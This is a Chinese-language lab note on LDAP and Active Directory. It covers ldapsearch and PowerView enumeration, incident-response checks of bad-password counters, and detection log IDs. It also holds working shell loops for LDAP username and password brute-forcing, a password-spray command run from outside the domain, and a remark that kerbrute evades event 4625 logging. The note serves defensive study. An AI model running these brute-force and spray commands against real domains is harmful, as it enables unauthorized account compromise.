## ldap 概述

轻型目录访问协议（英文：Lightweight Directory Access Protocol，缩写：LDAP）是一个开放的，中立的，工业标准的**应用协议**，通过IP协议提供访问控制和维护分布式信息的目录信息。

Active Directory = LDAP服务器＋LDAP应用(Windows域控)。

ActiveDirectory先实现一个LDAP服务器，然后自己先用这个LDAP服务器实现了自己的一个具体应用(域控)。

常用缩写词
	
	DN:Distinguished Name
	CN:Common Name
	OU:Organizational Unit
	DC:Domain Controller
其中DN有三个属性，分别是CN、OU和DC

## ldapsearch

	-x      	-Simple authentication
	-h host 	-ldap server(域控)
	-D binddn   -bind DN (或域用户名)
	-b basedn   -base dn for search(加载整个域的基本LDAP对象)
	-w passwd   -bind password (for simple authentication)
	-W          -prompt for bind password
	-H URI      -LDAP Uniform Resource Identifier(s)

	ldapsearch -x -D "tony" -b "DC=LMRSEC,DC=COM" -h 10.10.40.50 -W



也可以用：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" 

	ldapsearch -x -H ldap://10.10.40.50:389 -D "CN=tony,DC=lmrsec,DC=com" -w Passw0rd -b "DC=lmrsec,DC=com"

## 主机应急响应

域用户的属性中包含两个有用的信息：

	badPwdCount，记录用户口令错误的次数
	lastbadpasswordattempt，记录上次口令输入错误的登陆时间

我们在检测时可以通过查询这两个属性来识别是否遭受口令爆破的攻击，具体方法：

1.直接在域控制器上查询

Powershell 代码如下：

	Get-ADUser -Filter * -Properties *| select name,lastbadpasswordattempt,badpwdcount|fl



2.**在域外kali系统查询**

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectClass=user)(objectCategory=person))" |grep -E "cn:|badPwdCount|badPasswordTime"



查询所有域用户：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectClass=user)(objectCategory=person))" CN |grep cn



查询所有计算机：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectCategory=computer)(objectClass=computer))" CN |grep cn



查询所有组：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectCategory=group))" CN |grep cn





**ldap 暴力破解**：

eg: 爆破用户名：

	for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://10.10.40.50:389 -D "CN="$i",DC=lmrsec,DC=com" -w Passw0rd -b "DC=lmrsec,DC=com" |grep "# numEntrie";done

test.txt保存所有用户名，如果口令正确，输出查询结果的个数，如果口令错误，返回验证错误。



pcap 见 ldap brute username.pcap。
 
eg: 爆破密码：

	for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://10.10.40.50:389 -D "CN="tony",DC=lmrsec,DC=com" -w $i -b "DC=lmrsec,DC=com" |grep "# numEntrie";done



pcap 见 ldap brute pwd.pcap。

3.**在域外windows系统查询**  
Windows 用户通过 [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) 查询

导入powershell脚本：

	Import-Module XX.ps1



有些有执行限制：

	Get-ExecutionPolicy  //结果显示restricted

需要打开限制：

	Set-ExecutionPolicy Unrestricted  //打开限制



普通域用户没权限，实际操作应该使用**域外windows机器查询。**

在域外windows机器:

1)查询所有域用户

	$uname="tony"                                                      
	$pwd=ConvertTo-SecureString "Passw0rd" -AsPlainText –Force            
	$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
	Get-NetUser -Domain lmrsec.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred



为了便于统计名称，可以选择只列出name项:

	$uname="tony"                                                      
	$pwd=ConvertTo-SecureString "Passw0rd" -AsPlainText –Force            
	$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
	Get-NetUser -Domain lmrsec.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred | fl name



2)查询所有计算机

	$uname="tony"                                                      
	$pwd=ConvertTo-SecureString "Passw0rd" -AsPlainText –Force            
	$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
	Get-NetComputer -Domain test.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred | fl name



3)查询所有组

	$uname="tony"                                                      
	$pwd=ConvertTo-SecureString "Passw0rd" -AsPlainText –Force            
	$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
	Get-NetGroup -Domain test.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred | fl name



**ldap 暴力破解**：

DomainPasswordSpray的功能比较完整，但不支持域外的使用，这里使用了[三好学生的修改的脚本](https://github.com/3gstudent/Homework-of-Powershell/blob/master/Invoke-DomainPasswordSprayOutsideTheDomain.ps1)，支持域外使用。

	PS > Invoke-DomainPasswordSprayOutsideTheDomain -Domain "10.10.40.50/DC=lmrsec,DC=com" -UserList .\user.txt -Password Passw0rd -Verbose
	LDAP://10.10.40.50/DC=lmrsec,DC=com





流量包见 DomainPasswordSpray brute username.pcap。

4.**在域内windows系统查询**

[三好学生的工具](https://github.com/3gstudent/Homework-of-C-Language/blob/master/QueryADObject.cpp)

VS编译CPP文件成exe：

https://jingyan.baidu.com/article/f71d6037c7accb1ab641d115.html  

在域内win7 运行报错，具体原因未知。



5.**在域外识别被禁用的用户**

可以通过读取用户的badPwdCount属性和lockoutTime属性进行判断

使用PowerView查看所有用户的badPwdCount属性和lockoutTime属性

	Get-NetUser -Domain lmrsec.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred| select name,badPwdCount,lockoutTime



## 参考资料

[渗透基础——域内用户口令策略的获取](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7%E5%8F%A3%E4%BB%A4%E7%AD%96%E7%95%A5%E7%9A%84%E8%8E%B7%E5%8F%96/)

[渗透基础——活动目录信息的获取](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%E4%BF%A1%E6%81%AF%E7%9A%84%E8%8E%B7%E5%8F%96/)

[渗透基础——通过LDAP协议暴力破解域用户的口令](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E9%80%9A%E8%BF%87LDAP%E5%8D%8F%E8%AE%AE%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E5%9F%9F%E7%94%A8%E6%88%B7%E7%9A%84%E5%8F%A3%E4%BB%A4/)

**[Active Directory: LDAP 语法过滤手册](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx?Sort=MostUseful)**

## 后记

使用 [kerbrute](https://github.com/ropnop/kerbrute) 也可以进行暴力破解，且不会产生日志(4625 - An account failed to log on)，但是可以通过日志(4768 - A Kerberos authentication ticket (TGT) was requested 和 4771 - Kerberos pre-authentication failed)记录。

查询哪些用户具有 sidhistory 属性：

域控 powershell执行：

	Get-aduser -filter * -properties sidhistory | Where sidhistory

这将首先返回所有用户，然后指示PowerShell也返回sidhistory属性(如果存在)。 然后，我们使用Where-Object进行过滤，仅返回具有该属性的帐户。




